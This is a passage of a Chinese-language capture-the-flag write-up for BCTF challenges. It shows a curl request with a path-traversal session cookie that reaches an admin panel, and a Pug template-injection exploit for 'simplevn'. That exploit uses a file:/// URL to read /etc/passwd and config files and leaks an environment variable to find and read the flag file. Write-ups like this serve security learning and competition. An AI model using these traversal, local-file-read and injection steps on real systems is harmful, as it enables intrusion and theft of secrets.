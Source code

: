 ```
ht@TIANJI:/mnt/c/Users/HT/Desktop/bctf$ curl http://47.95.195.16:9999/admin_panel -H "Cookie: gosessionid=../go/src/github.com/checkin/website/static/img/avatar/qgSlJRUsscLgTbZVLppH.png" | grep -Eo "bctf{.*}"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2396  100  2396    0     0  57868      0 --:--:-- --:--:-- --:--:-- 58439
bctf{Y0Uu_H4CK3d_A_B33G0_W3bs1t3?}
```

## simplevn

首先注册登录：

功能包括输入url然后截图，查看截图，设置模板：

模板内容限制：

```
const checkPUG = (upug) => {
  const fileterKeys = ['global', 'require']
  return /^[a-zA-z0-9\.]*$/g.test(upug) && !fileterKeys.some(t => upug.toLowerCase().includes(t))
}
```

存储的时候，添加了`#{}`，造成ssti模板注入，但是注入的内容只能是字母数字和点，还不能包含`require`和`global`，渲染模板的时候有个要求 : **必须是本机访问**。

```
console.log('Generator pug template')
const uid = req.session.user.uid
const body = `#{${upug}}`
console.log('body', body)
const upugPath = path.join('users', utils.md5(uid), `${uid}.pug`)
console.log('upugPath', upugPath)
try {
    fs.writeFileSync(path.resolve(config.VIEWS_PATH, upugPath), body)
} catch (err) {
```

首先通过： `file:///etc/passwd`

![](/assets/bctf/TIM截图20181129223646.png)

然后查看config.js:

![](/assets/bctf/TIM截图20181129223710.png)

设置模板如下: `process.env.FLAGFILENAME`，即可得到文件名：`5E192BCA-1C3F-4CE8-933C-D8B880D72EAD.txt`

![](/assets/bctf/TIM截图20181129223617.png)

最后获取flag:

`file:///home/pptruser/app/simplev2/F8F168F9-9BF9-4020-A48C-3791F6DAFB12/5E192BCA-1C3F-4CE8-933C-D8B880D72EAD.txt`

![](/assets/bctf/TIM截图20181129223554.png)
